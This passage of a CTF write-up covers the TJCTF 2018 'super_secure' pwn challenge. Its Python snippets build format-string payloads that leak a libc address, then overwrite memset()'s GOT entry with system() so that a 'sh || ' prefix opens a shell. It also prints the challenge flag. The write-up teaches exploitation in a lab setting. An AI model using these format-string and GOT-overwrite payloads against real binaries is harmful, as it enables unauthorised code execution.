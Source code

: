     off = 22      # offset of password buffer
    leak_off = 65 # offset of __libc_start_main_ret on the stack
    payload = "%{}$n%{}${}p%{}$n".format(off + 1, leak_off, secure_service_ADDR, off)

    ...
    leaked_libc = stack_leak_address - 0x21b97 # calculate the base

The next step is to get the shell. We see that **memset()** is called with our message as the first argument, so if we replace it with **system()** and add at the beginning of our message “sh || ”, then we will get a shell and the errors from the rest of the string will be ignored. So, let’s write the payload:

    # payload that rewrites memset() GOT to system()
    write1 = (0xffff00000000 & system_ADDR) / 0x100000000
    write2 = (0x0000ffff0000 & system_ADDR) / 0x10000
    write3 = (0x00000000ffff & system_ADDR)

    # sort the writes in ascending order
    writes = [
                (write1, p64(memset_GOT + 4)),
                (write2, p64(memset_GOT + 2)),
                (write3, p64(memset_GOT + 0))
                ]
        writes.sort(key=lambda tup: tup[0])
        print (writes)

    addresses = ''.join(x[1] for x in writes)
    write3 = writes[0][0]
    write2 = writes[1][0]
    write1 = writes[2][0]

    code = "sh || "
    payload = code + "%{}x%{}$hn%{}x%{}$hn%{}x%{}$hn".format(write3 - len(code), off, write2 - write3, off + 1, write1 - write2, off + 2)

Running the full script will have great results:

![Running the exploit](https://cdn-images-1.medium.com/max/2426/1*54kZjI5GQSPxQS5Zze-dGQ.png)*Running the exploit*

Flag: **tjctf{4r3_f0rm47_57r1n65_63771n6_0ld_y37?}**

Full solution: [https://github.com/JustBeYou/ctfs/blob/master/tjctf2018/super_secure.py](https://github.com/JustBeYou/ctfs/blob/master/tjctf2018/super_secure.py)

And here we are, at the end of the journey. We pwned them all! TJCTF was a great experience with pretty interesting tasks that were beginner oriented, so I recommend it to any newcomer as the organizers did a really great job to assure a high quality CTF.

Don’t forget to subscribe and follow my Github for more wargames solutions and guides. Thanks for reading!
